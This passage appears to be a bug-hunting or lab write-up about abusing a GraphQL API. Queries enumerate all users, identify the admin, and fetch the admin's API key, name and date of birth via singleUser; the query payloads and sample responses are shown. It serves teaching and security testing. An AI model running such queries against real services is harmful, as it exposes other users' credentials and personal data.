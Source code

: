 A query was created using the above representation to fetch all of the users.

<pre class="language-graphql" data-title="query to fetch allUsers" data-line-numbers><code class="lang-graphql"><strong>{
</strong>  allUsers {
    edges {
      node {
        uuid
        username
        isAdmin
      }
    }
  }
}

</code></pre>

The query above revealed that the admin user was `jimcarry` with `uuid:10`.

```json
{
  "node": {
     "uuid": "10",
     "username": "jimcarry",
     "isAdmin": true
   }
 }
```

We can also use the `allPosts` query to get information about the users.

```graphql
{ REDACTED TRY YOUR SELF }
```

now we can retrieve the admin user api key with the admin uuid by using the

```graphql
{
  singleUser(user: 10) {
    apiKey
    name
    surname
    dateOfBirth
  }
}
```

We can now obtain the admin user API key using the admin uuid.

```json
{
  "data": {
    "singleUser": {
      "apiKey": "AS7RA968GDBVDQIYILDSY7",
      "name": "Mika",
      "surname": "Hakkinen",
      "dateOfBirth": "01/09/1982"
    }
  }
}
```

By using introspection to understand the schema of a GraphQL API, researchers/devs can easily hunt bugs and identify discrepancies that may indicate a bug.
